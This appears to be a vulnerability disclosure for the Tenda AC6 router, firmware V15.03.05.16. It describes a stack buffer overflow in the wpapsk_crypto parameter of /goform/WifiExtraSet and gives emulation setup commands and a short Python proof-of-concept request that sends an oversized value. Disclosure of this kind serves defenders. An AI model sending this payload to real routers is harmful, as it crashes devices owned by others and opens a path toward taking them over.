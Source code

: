 ### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站： [AC6V1.0升级软件](https://www.tenda.com.cn/material/show/102661)

![image](https://github.com/user-attachments/assets/75eb2018-df60-4c06-bfb0-1920038a3a22)


### Affected version

**V15.03.05.16**

### Environmental simulation

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

### Vulnerability details

A vulnerability was found in Tenda AC6 V15.03.05.16. The file /goform/WifiExtraSet is affected. Using the wpapsk\_crypto parameter causes a stack-based buffer overflow

![image](https://github.com/user-attachments/assets/1e8954c4-4424-46f3-a658-f34b36f61e00)


### poc

```text-plain
import requests

url = "http://192.168.142.100/goform/WifiExtraSet"
data = {
    "wifi_chkHz": "1",
    "wl_mode": "wisp",
    "wl_enbale": "1",
    "country_code": "CN",
    "wpsEn": "0",
    "guestEn": "0",
    "iptvEn": "0",
    "wifiTimerEn": "1",
    "smartSaveEn": "1",
    "dmzEn": "1",
    "handset": "0",
    "ssid": "fcniux",
    "wpapsk_key": "11111111",
    "security": "wpapsk",
    "wpapsk_type": "wpa",
    "wpapsk_crypto": b"Raining" * 28, 
    "mac": "undifined"
}

response = requests.post(url, data=data)
print(response.status_code)
print(response.text)
```
![image](https://github.com/user-attachments/assets/e6ae499e-2f2e-47d3-ad7c-b5ec863472fc)

